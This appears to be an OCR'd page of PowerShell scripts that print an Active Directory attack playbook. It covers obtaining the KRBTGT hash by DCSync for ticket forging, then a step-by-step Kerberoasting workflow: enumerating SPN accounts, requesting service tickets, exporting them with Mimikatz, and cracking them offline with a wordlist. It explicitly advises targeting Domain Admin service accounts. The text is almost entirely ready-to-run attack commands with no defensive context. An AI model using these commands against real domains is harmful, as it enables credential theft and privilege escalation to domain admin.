 ```powershell
Write-Host "`n🔍 OBTAINING REQUIRED VALUES:" -ForegroundColor Yellow
Write-Host "1. Domain Name: Use Get-Domain or nltest /dsgetdc" -ForegroundColor White
Write-Host "2. Domain SID: Use Get-DomainSID or wmic useraccount get sid" -ForegroundColor White
Write-Host "3. KRBTGT Hash: Use DCSync attack on domain controller" -ForegroundColor White
Write-Host "4. User RID: Use Get-DomainUser or net user /domain" -ForegroundColor White
```

### **2. 🔥 Complete Kerberoasting Attack Workflow**

#### **Step-by-Step Kerberoasting Execution**
```powershell
# Complete Kerberoasting Attack Workflow (CRITICAL MISSING CONTENT)
Write-Host "=== COMPLETE KERBEROASTING ATTACK WORKFLOW ===" -ForegroundColor Red

Write-Host "`n🎯 ATTACK OVERVIEW:" -ForegroundColor Yellow
Write-Host "Kerberoasting extracts service account password hashes for offline cracking." -ForegroundColor White

Write-Host "`n📋 PREREQUISITES:" -ForegroundColor Yellow
Write-Host "1. Valid domain user credentials" -ForegroundColor White
Write-Host "2. Service accounts with SPNs configured" -ForegroundColor White
Write-Host "3. Access to request service tickets" -ForegroundColor White

Write-Host "`n🚀 EXECUTION STEPS:" -ForegroundColor Yellow
Write-Host "1. First find all the SPN accounts" -ForegroundColor White
Write-Host "2. Select SPN of a domain admin since we doing privilege escalation" -ForegroundColor White
Write-Host "3. Set the SPN as the argumentlist value and create a new object (request a TGS)" -ForegroundColor White
Write-Host "4. Export the all the tickets by mimikatz" -ForegroundColor White
Write-Host "5. Keep a note of the file name where the ticket is stored of that service" -ForegroundColor White
Write-Host "6. Crack the ticket" -ForegroundColor White

Write-Host "`n🔧 COMPLETE KERBEROASTING COMMANDS:" -ForegroundColor Yellow

Write-Host "`nStep 1: Find Service Accounts with SPNs" -ForegroundColor Cyan
Write-Host "# Find user accounts used as Service accounts" -ForegroundColor Gray
Write-Host "Get-NetUser -SPN" -ForegroundColor White
Write-Host "Get-NetUser -SPN -Verbose | select displayname,memberof" -ForegroundColor White

Write-Host "`nStep 2: Request Service Ticket (TGS)" -ForegroundColor Cyan
Write-Host "# Request TGS for specific service" -ForegroundColor Gray
Write-Host "Add-Type -AssemblyName System.IdentityModel" -ForegroundColor White
Write-Host "New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/computer.domain.local'" -ForegroundColor White

Write-Host "`nStep 3: Verify TGS Grant" -ForegroundColor Cyan
Write-Host "# Check if the TGS has been granted" -ForegroundColor Gray
Write-Host "klist" -ForegroundColor White

Write-Host "`nStep 4: Export Service Tickets" -ForegroundColor Cyan
Write-Host "# Export all the tickets" -ForegroundColor Gray
Write-Host "Invoke-Mimikatz -Command '\"kerberos::list /export\"'" -ForegroundColor White

Write-Host "`nStep 5: Crack Service Ticket" -ForegroundColor Cyan
Write-Host "# Crack with tgsrepcrack" -ForegroundColor Gray
Write-Host "python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-user1@MSSQLSvc~computer.domain.localDOMAIN.LOCAL.kirbi" -ForegroundColor White

Write-Host "`n⚠️ IMPORTANT NOTES:" -ForegroundColor Red
Write-Host "- Target high-value service accounts (Domain Admins, etc.)" -ForegroundColor White
Write-Host "- Service tickets are cached and can be extracted" -ForegroundColor White
```